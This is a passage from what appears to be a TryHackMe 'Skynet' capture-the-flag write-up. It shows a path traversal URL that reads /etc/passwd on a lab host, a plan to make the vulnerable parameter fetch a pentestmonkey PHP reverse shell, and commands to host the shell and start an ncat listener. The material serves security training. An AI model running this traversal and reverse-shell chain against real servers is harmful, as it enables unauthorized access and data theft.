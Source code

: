 **Found it:** [https://www.exploit-db.com/exploits/25971](https://www.exploit-db.com/exploits/25971)

The exploit shows we can view system files through a URL parameter. Let's test it:

```
http://10.10.24.11/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

![IMAGE](https://github.com/definitelynotrafa/THM-writeups/raw/main/assets/rooms/Skynet/24.png)

**Incredible.** We can read `/etc/passwd`!

The exploit mentions we can achieve full server compromise. That's exactly what we want. The plan:
1. Host a PHP reverse shell on our machine
2. Make the vulnerable URL fetch our reverse shell
3. Profit!

Download the reverse shell from pentestmonkey and modify the IP and port:

[https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

![IMAGE](https://github.com/definitelynotrafa/THM-writeups/raw/main/assets/rooms/Skynet/28.5.png)

Start a PHP server to host our reverse shell:

```bash
php -S 0.0.0.0:8000
```

![IMAGE](https://github.com/definitelynotrafa/THM-writeups/raw/main/assets/rooms/Skynet/28.png)

Start a netcat listener in another terminal:

```bash
ncat -lvnp 1337
```

![IMAGE](https://github.com/definitelynotrafa/THM-writeups/raw/main/assets/rooms/Skynet/28.7.png)
